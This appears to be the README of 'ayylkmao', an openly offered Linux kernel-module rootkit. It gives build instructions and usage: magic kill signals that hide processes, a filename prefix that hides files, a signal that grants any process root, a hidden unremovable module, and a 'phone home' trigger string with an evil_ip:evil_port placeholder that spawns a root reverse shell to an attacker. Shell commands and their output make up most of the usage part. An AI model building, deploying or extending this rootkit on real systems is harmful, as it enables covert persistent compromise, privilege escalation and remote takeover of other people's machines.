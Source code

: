 # ayylkmao.ko
An LKM rootkit for aliens by aliens.

## Installation
Make sure you have the kernel headers installed for your target system. After that you can just run:

```
git clone https://github.com/ableiten/ayylkmao && cd ayylkmao
make
```

That's all. You can install the `ayylkmao.ko` module normally.

## Basic Usage
The magic kill signals are all defined as macros in [ayylkmao.c](https://github.com/ableiten/ayylkmao/blob/master/ayylkmao.c#L11). It is recommended that you modify these.

#### Hiding Processes
You can hide processes using the signals `SIGNAL_HIDE_PROCESS` and `SIGNAL_SHOW_PROCESS`.

```
> pidof python
18237
> kill -50 18237
> pidof python
> kill -51 18237
> pidof python
18237
```
#### Hiding Files/Directories
You can hide files and directories by naming them using the `MAGIC_PREFIX` prefix.

```
> touch sp00kyfile file
> ls
file
```

#### Phoning Home
To phone home you will need a reverse shell that accepts arguments [like this one](https://github.com/ableiten/simple-reverse-shell). The tool should be saved on the infected system as `MAGIC_PREFIX-util/rev` where the rootkit knows to look for it.

After that you can simply send specially formatted data over any connection and a root reverse shell will phone home to the specified address and port.

Using the default backdoor magic, that would look something like this:
```
3tph0n3h0m3{evil_ip:evil_port}
```

#### Privilege Escalation Backdoor
You can give any process root by sending it the `SIGNAL_GIVE_ROOT` signal.

```
> whoami                                 
user
> echo $$                                
6678
> kill -52 6678                          
> whoami                                 
root
```

#### Removal
Since the kernel module is hidden and thus unremovable by default, you will need to unhide it before it can be removed. To do this simply signal any process with `SIGNAL_UNHIDE_MODULE` and then you should be able to remove the module normally.

```
> kill -53 0
> rmmod ayylkmao.ko
```

## Useful Material
- [Every](https://github.com/jiayy/lkm-rootkit) [single](https://github.com/croemheld/lkm-rootkit) [other](https://github.com/m0nad/Diamorphine) [LKM](https://github.com/triedal/rootkit) [rootkit](https://github.com/nurupo/rootkit/) (Each word is a seperate link)
- http://phrack.org/issues/58/7.html
- http://www.ouah.org/LKM_HACKING.html (mirror, original unavailable as of writing)
- http://r00tkit.me/
